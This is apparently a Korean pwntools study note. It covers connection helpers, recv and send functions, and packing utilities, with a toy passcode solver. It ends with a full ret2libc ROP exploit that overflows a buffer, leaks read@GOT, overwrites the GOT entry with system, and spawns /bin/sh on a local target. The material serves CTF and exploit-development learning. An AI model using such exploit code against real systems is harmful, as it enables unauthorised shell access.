 * NC
remote(IP, PORT) ; IP-string, PORT-int
ex) p = remote("localhost", 1234)

* Local
process(PAHT) ; PATH-string
e ) p = process("./test")

* SSH
ssh(USERNAEM, IP, PORT, PASSWORD) ; USERNAME, IP, PASSWORD - string, PORT - int
                                  ; port=, password=
ex) p = ssh("test", "localhost", port=1234, password="test")
ex) p2 = p.run("/bin/sh")

``` C
//recv_send.c
#include<stdio.h>
#include<stdlib.h>
#include<time.h>

int main(int argc, char *argv[]){
	srand(time(NULL));
	int pass= rand();
	int input;
  
	alarm(1);
  
	printf("Passcode : %d\n", pass);
	scanf("%d",&input);

	if(pass==input) printf("Good!\n");
	else printf(":(\n");

	return 0;
}
```
* recvline() : 한 줄을 받아온다.
tmp = p.recvline()
password = tmp[tmp.find(':')+2:len(tmp)-1]
or
passcode = p.recvline()[10:]

* recvuntil(str) : str까지 받아온다

* recv(int) : int만큼 만 받아온다
p.recvuntil('Passcode:')
passcode = p.recv(2048)

``` python
# exp.py
from pwn import *

p = process("./recv_send")

tmp = p.recvline()
passcode= tmp[tmp.find(':')+2:len(tmp)-1]
p.sendline(passcode)
print p.recv(2048)
```

* packing
  * p32 : 32bit little endian으로 packing
  ex) p32(0x12345678) => \x78\x56\x34\x12
  ex) p32(0x12345678, endian='bin') : big endian으로 packing
  * p64 : 64bit little endian으로 packing
  ex) p64(0x12345678) = \x00\x00\x00\x00\x78\x56\x34\x12
  ex) p64(0x12345678, endian='bin') : big endian으로 packing

* unpacking
  * u32 : 32bit little endian을 unpack
  ex) u32("\x78\x56\x34\x12") => 305419896(= 0x12345678)
  ex) u32("\x78\x56\x34\x12", endian='bin') : big endian으로 unpack
  * u64 : 64bit little endian을 unpack
  
* interactive()
ex) p = remote("108.61.161.168", 12341234123)
    ''''
    p. interactive()
 
 ``` python
 from pwn import *

PPPR = 0x080484b6
read_plt = 0x0804832c 
read_got = 0x0804961c
write_plt = 0x0804830c
bss = 0x08049628
offset = 0x99a10
binsh = "/bin/sh"

len_binsh = len(binsh)

p = remote("localhost", 9904)

pay = "A"*140
pay += p32(read_plt)+p32(PPPR)+p32(0)+p32(bss)+p32(len_binsh)	     #read(0, bss, 8)	 => Overwrite /bin/sh to bss
pay += p32(write_plt)+p32(PPPR)+p32(1)+p32(read_got)+p32(4)	       #write(1, read_got, 4)  => printf read_got
pay += p32(read_plt)+p32(PPPR)+p32(0)+p32(read_got)+p32(4)	       #read(0, read_got, 4)   => Overwrite system to read_got
pay += p32(read_plt)+"ABCD"+p32(bss)				                       #read("ABCD", bss)  =>   system(bss)  =>  system("/bin/sh")

print "Send Explot : %s" % pay

p.send(pay)

print "Send /bin/sh : %s" % binsh

p.send(binsh)

sleep(1)

print "Reseving"

tm = p.recv(4)

print "Reseve Complete!"
print "read_got : %x" % u32(tm)

sys = u32(tm) - offset

print "system_plt : %x" % sys

p.send(p32(sys))

sleep(0.3)

print "Send system"

p.sendline("id")

sleep(1)

print p.recvline()

p.interactive()
```
